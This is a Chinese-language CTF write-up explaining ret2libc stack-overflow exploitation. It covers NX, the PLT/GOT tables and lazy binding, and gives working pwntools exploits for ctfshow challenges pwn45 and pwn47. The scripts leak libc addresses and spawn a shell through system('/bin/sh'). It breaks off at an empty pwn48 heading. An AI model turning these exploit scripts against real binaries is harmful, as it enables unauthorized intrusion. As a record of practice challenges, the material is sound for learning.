 ## ctf pwn ret2libc

### 1.ret2libc的了解

本文件主要是对ret2libc类的一个基本栈溢出的问题进行一个解释，如果想要实现ret2libc那就要实现一下几点

```tex
1.存在溢出，且溢出范围足够大，可以覆盖到main函数的返回地址，还可以覆盖更远的区域。

2.存在类似于puts，write这样的打印函数。可以被利用，劫持程序的执行流程后，执行puts,write这样的函数打印一些已经执行过的函数的真实地址，以便我们寻找libc的基地址。
```

同时丢眼这类题的保护也有着一些特点，因此当看到保护时也可以想到ret2libc的文件进行攻击方法如下：

```tex
1.开启了NX保护，即数据段不可执行。同时栈也是不可执行的。因此就别想通过写入shellcode再ret2shellcode这样的方法拿shell。

2.程序本身也没有像system("/bin/sh")这样直接的后门函数，因此我们也不要想着直接ret2text这么直接。

3.程序中可能既没有system函数，又没有"/bin/sh"字符串，需要我们在libc库中寻找。
```



![image-20241114215146657](C:\Users\fofa\AppData\Roaming\Typora\typora-user-images\image-20241114215146657.png)

### 2.解题思路

这里我们要明确自己的目标是要拿到shell执行权限，因此要让二进制文件可以执行流程，让程序可以执行system('/bin/sh')。因此可以分为两步:
```
1.找到system()函数和’/bin/sh'字符串在libc中的地址
2.劫持程序的执行流程，让程序执行system(‘/bin/sh’)
```

而这里主要难的是一个找到libc中的地址因此我们这里要了解一个公式：

```
函数的真实地址=基地址+偏移地址
```

#### 前置知识

#### plt表和got表

这个里可以不用了解的特别深入

主要点是连接上面一点是这个二进制文件本身是没有写入system函数的同样也没有/bin/sh的字符串但是这里就要看libc文件了，而libc文件时一个集成了很多函数的一个库（但是并不是一个库这里只是一个类似而已），因此这个文件中就会存在system函数和我们需要的字符串，因此我们需要在libc中找到我们需要函数的地址，获得 libc 的某个函数的地址通常采用的方法是：通过 got 表泄露，但是由于libc的延迟绑定，需要泄露的是已经执行过的函数的地址。为什么是已经执行过的函数的地址呢，此处就要介绍plt表和got表的内容了。

got表：这个是可以获得一个外部函数在内存的确切地址的表，同时当有外部函数访问时也就是访问这个表来得到这个函数的具体地址同时我们可以用这个表和libc的基地址可以获得system的真实地址

plt表：procedure link table 程序链接表，位于代码段，是一个每个条目是16字节内容的数组，使得代码能够方便的访问共享的函数或者变量。可以理解为函数的入口地址，通过劫持返回地址为puts函数的plt表地址，即可执行puts函数。

同样这里也要引入一个延迟绑定机制

#### 延迟绑定

只有动态库libc中的函数在被调用时，才会进行地址解析和重定位工作，也就是说，只有函数发生调用之后，上图中最右侧的两个箭头才建立完成，我们才能够通过got表读取到libc中的函数。至于具体过程相对复杂，这里引用大佬博主的图片简要介绍，当程序第一次执行某个函数A时，发生的过程如下：

![image-20241114222414153](C:\Users\fofa\AppData\Roaming\Typora\typora-user-images\image-20241114222414153.png)

  在可执行二进制程序调用函数A时，会先找到函数A对应的PLT表，PLT表中第一行指令则是找到函数A对应的GOT表。此时由于是程序第一次调用A，GOT表还未更新（就是图一中最右边俩箭头还没有建立），会先去公共PLT进行一番操作查找函数A的位置，找到A的位置后再更新A的GOT表，并调用函数A。当第二次执行函数A时，发生的流程就很简单了，如下图：

![image-20241114222422713](C:\Users\fofa\AppData\Roaming\Typora\typora-user-images\image-20241114222422713.png) 

  此时A的GOT表已经更新，可以直接在GOT表中找到其在内存中的位置并直接调用。说白了，图三就是图一。 

---

#### 例题：

##### pwn45

题目中提示了这里面没有明显的system函数也没有/bin/sh字符串但是这个可以在libc文件中获取因此我们可以使用ret2libc来使用

![image-20241117142626508](C:\Users\fofa\AppData\Roaming\Typora\typora-user-images\image-20241117142626508.png)

![image-20241117142644365](C:\Users\fofa\AppData\Roaming\Typora\typora-user-images\image-20241117142644365.png)

在ctfshow函数中发现了一个栈溢出因此他的偏移量位0x6b+4因此他的exp：

```
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'
#io = process('./pwn')
io = remote('pwn.challenge.ctf.show',28183)
elf = ELF('/home/fofa/pwn')
main = elf.sym['main']
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
payload = cyclic(0x6b+4) + p32(puts_plt)+p32(main)+p32(puts_got)
io.recvuntil("O.o?")
io.sendline(payload)
puts_addr= u32(io.recvuntil(b'\xf7')[-4:])
libc = LibcSearcher('puts',puts_addr)
libc_base = puts_addr - libc.dump('puts')
system = libc_base+libc.dump('system')
binsh = libc_base + libc.dump('str_bin_sh')
payload = cyclic(0x6b+4) + p32(system)+p32(main)+p32(binsh)

io.sendline(payload)
io.interactive()
```

---

##### pwn47

这个题是一个比较简单的libc同时puts的文件也不需要我们寻找只用识别和读取就可以了

![image-20241117173932096](C:\Users\fofa\AppData\Roaming\Typora\typora-user-images\image-20241117173932096.png)

![image-20241117174005694](C:\Users\fofa\AppData\Roaming\Typora\typora-user-images\image-20241117174005694.png)

运行发现了他输出我所需要的puts和read的地址值

因此我们的exp：

```python
from pwn import*
from pwn import *
from LibcSearcher import *

context.log_level = 'debug'
# io = process('/home/fofa/pwn')
io = remote('pwn.challenge.ctf.show',28258)
elf = ELF('/home/fofa/pwn')

io.recvuntil(b"puts: ")
puts = eval(io.recvuntil("\n" , drop = True))
io.recvuntil(b"gift: ")
bin_sh = eval(io.recvuntil("\n" , drop = True))
libc = LibcSearcher("puts" , puts)
libc_base = puts - libc.dump("puts")
system = libc_base + libc.dump("system")
paylad = b"a"*(0x9c+4) + p32(system) + p32(0) + p32(bin_sh)
io.sendline(paylad)
io.interactive()
```

---

##### pwn48
